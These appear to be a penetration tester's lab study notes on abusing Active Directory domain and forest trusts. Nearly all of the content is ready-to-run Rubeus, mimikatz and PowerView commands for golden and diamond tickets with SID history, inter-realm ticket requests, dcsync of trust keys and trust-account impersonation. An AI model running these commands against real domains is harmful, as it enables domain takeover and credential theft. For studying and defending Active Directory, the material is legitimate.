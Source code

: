 # Forest and Domain Trusts Notes

child domains are added to forests with a transitive, two-way trusts with its parent

list trust
```
powershell Get_DomainTrust
```

things to look at:
- Sourcename - current domain
- Targetname - foreign domain
- TrustDirection - trust direction applied
- TrustAttributes - can tell us if both domains are in a forest. WITHIN_FOREST can indicate a child/parent relationship

DA privs in the child means DA privs in the parent using a TGT with the SID History attribute

**Golden Ticket with SID History**

need target groups SID
```
powershell Get-DomainGroup -Identity "Domain Admins" -Domain <parent domain> -Properties ObjectSid
```

create golden ticket
```
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:<krbtgt hash> /user:Administrator /domain:<child domain> /sid:<child domains sid> /sids:<target groups SID> /nowrap
```

import
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:Administrator /password:FakePass /ticket:<base64>
steal_token <PID>
```

now we can interact with the parent domains stuff
```
ls \\<parent domains dc>\c$
```

**Diamond Ticket with SID History**

the diamond flag let's use specify additional sids to add

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:519 /sids:<target groups sid> /krbkey:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /nowrap
```

### One-Way Inbound

if you have an Inbound trust in the TrustDirection from below
```
powershell Get-DomainTrust
```

it means that principals in our domain can be granted access to resources in the foreign domain
enum across
```
powershell Get-DomainComputer -Domain dev-studio.com -Properties DnsHostName
```

enum any groups with users outside of our domain and return the members, use second command to convert the SID
```
powershell Get-DomainForeignGroupMember -Domain <other domain with inbound trust with>
powershell ConvertFrom-SID <SID>
```

in this example we hop the trust we need to impersonate one of members part of the built-in administrators group 
setps:
1. find the users of this group
2. obtain a TGT for the target user
3. use TGT to req a referral ticket
4. use this inter-realm ticket to req TGS's in the target domain
```
powershell Get-DomainGroupMember -Identity "Studio Admins" | select MemberName
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:<user> /domain:<current domain> /aes256:<user hash> /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:krbtgt/<target domain> /domain:<current domain> /dc:<current domain dc> /ticket:<base64> /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/<target domain dc> /domain:<target domain> /dc:<target dc> /ticket:<base64> /nowrap
```

### One-Way Outbound

this means the other domain has trust in the current domain, but not the other way around
```
powershell Get-DomainTrust -Domain <domain>
```

can partially exploit this and obtain "domain user" access to this other domain by leveraging a shared credential for the trust. We are looking for a Trusted Domain Object (TDO). 
enum for TDO's
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=trustedDomain)" --domain cyberbotic.io --attributes distinguishedName,name,flatName,trustDirection
```

two ways to abuse, move laterally ot the DC and dump from memory
```
mimikatz lsadump::trust /patch
```

or dcsync with the TDOs GUID
```
powershell Get-DomainObject -Identity "CN=msp.org,CN=System,DC=cyberbotic,DC=io" | select objectGuid
mimikatz @lsadump::dcsync /domain:cyberbotic.io /guid:{<guid from above>}
```

there is also a trust account that exists with the name of the trusting domain, we'll see this in this enumeration
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=user)"
```

this means the target domain will have a trust account named our domain$, this is the account we must impersonate
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:<domain>$ /domain:<target domain> /rc4:<rc4 of password from dcsync> /nowrap
import:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:<current domain> /username:domain$ /password:FakePass /ticket:<base64>
steal_token <PID>
powershell Get-Domain -Domain <target domain>
```

